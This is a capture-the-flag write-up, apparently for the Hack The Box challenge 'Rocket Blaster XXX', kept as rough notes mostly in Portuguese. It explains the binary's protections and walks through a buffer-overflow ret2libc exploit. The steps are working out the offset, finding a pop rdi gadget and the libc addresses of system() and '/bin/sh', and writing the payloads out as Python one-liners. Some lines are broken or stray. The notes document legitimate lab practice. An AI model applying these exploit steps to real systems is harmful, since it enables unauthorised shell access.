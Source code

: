 Rocket Blaster XXX
Prepare for the ultimate showdown! Load your weapons, gear up for battle, 
and dive into the epic fray—let the fight commence!

checksec --file=rocket_blaster_xxx --output=json | jq
{
  "rocket_blaster_xxx": {
    "relro": "full",
    "canary": "no",
    "nx": "yes",
    "pie": "no",
    "rpath": "no",
    "runpath": "yes",
    "symbols": "yes",
    "fortify_source": "no",
    "fortified": "0",
    "fortify-able": "2"
  }
}

relro (Read-Only Relocations):
	Descreve se as relocações da seção de leitura estão habilitadas.
	"full" significa que todas as relocações são marcadas como somente
	leitura.

canary:
	Indica se o sistema utiliza um "canary" como medida de segurança.
	"no" significa que não há um valor canary para proteger contra 
	ataques de estouro de pilha.
	
nx (No eXecute):
	Mostra se a execução de código na pilha está desativada.
	"yes" indica que a pilha é protegida contra a execução de código,
	o que ajuda a prevenir ataques de injeção de código.
	
pie (Position Independent Executable):
	Indica se o executável suporta a técnica PIE.
	"no" significa que o executável não é executado como um executável
	independente de posição, o que pode afetar a aleatorização de 
	endereços de memória (ASLR).

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

deadbeef
deadbabe
dead1337


python2.7 -c 'print "A"*32 + "B"*4 + "C"*4 + "\xf5\x12\x40\x00\x00\x00\x00\x00\xf5\x12\x40" +  +  + ' > output

python2.7 -c 'print "A"*32 + "B"*4 + "C"*4 + "\xf5\x12\x40\x00\x00\x00\x00\x00" + "D"*100 + "\xef\xbe\xad\xde\x00\x00\x00\x00" + "\xbe\xba\xad\xde\x00\x00\x00\x00" + "\x07\x13\xad\xde\x00\x00\x00\x00"' > output

EBP + 4 == return address


Parece um ret2libc. O programa possui todas as proteções, portanto uma
saída é tentar utilizar alguma vulnerabilidade pela libc.

Para isso, precisamos encontrar:
1. endereço da string "/bin/sh"
2. endereço da função exit()
3. endereço da função system()

podemos extrair essas infos com:
readelf -s ./glibc/libc.so.6 | grep system
  1481: 0000000000050d70    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5

// dentro da libc, precisamos executar: system("/bin/sh")
// encontrar onde a libc começa no programa
ldd rocket_blaster_xxx
        linux-vdso.so.1 (0x00007fff639f5000)
        libc.so.6 => ./glibc/libc.so.6 (0x000072159a200000)
        ./glibc/ld-linux-x86-64.so.2 => /lib64/ld-linux-x86-64.so.2 (0x000072159a4a3000)

// o inicio da libc: 0x000072159a200000
// para encontrar o endereço de "/bin/sh":
strings -a -t x ./glibc/libc.so.6 | grep "/bin/sh"
1d8678 /bin/sh

// Note that instead of passing the parameter in after the return pointer, you will have to
use a 'pop rdi; ret' gadget to put it into the RDI register.

ROPgadget --binary rocket_blaster_xxx | grep rdi
0x0000000000401360 : movsb byte ptr [rdi], byte ptr [rsi] ; or al, 0 ; add byte ptr [rax - 0x77], cl ; ret 0x8d48
0x00000000004011e6 : or dword ptr [rdi + 0x405010], edi ; jmp rax
---> 0x000000000040159f : pop rdi ; ret 

Agora precisamos encontrar quantos bytes precisam ser enviados para o programa para
sobrescrever o return address:

gef>  pattern create 100
[+] Generating a pattern of 100 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef> r
(...)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
Program received signal SIGSEGV, Segmentation fault.

Nesse momento, temos o segfault e o endereço de retorno sobrescrito.
gef>  pattern offset $rsp
[+] Searching for '6661616161616161'/'6161616161616166' with period=8
[+] Found at offset 40 (little-endian search) likely

Portanto precisamos enviar 40 bytes de lixo e o restante será o payload de ataque para
sobrescrever o retorno com o endereço que desejamos.

payload = A*40 + pop rdi + address of "/bin/sh" + endereço de system() + return address

libc_base = 0x7ffff7c00000

pop_rdi = 0x40159f
binsh = libc_base + 0x1d8678 == 0x7ffff7dd8678
system = libc_base + 0x050d70 == 0x7ffff7c50d70

python2.7 -c 'print "A"*40 + "\x9f\x15\x40\x00\x00\x00\x00\x00" + "\x78\x86\xdd\xf7\xff\x7f\x00\x00" + "\xa0\x40\x15\x00\x00\x00\x00\x00" + "\x70\x0d\xc5\xf7\xff\x7f\x00\x00"' > output

0x7ffff7c50d70
0x7ffff7c455f0
0x7ffff7dd8678


https://stacklikemind.io/ret2libc-aslr

Executando o solve.py:
HTB{b00m_b00m_r0ck3t_2_th3_m00n}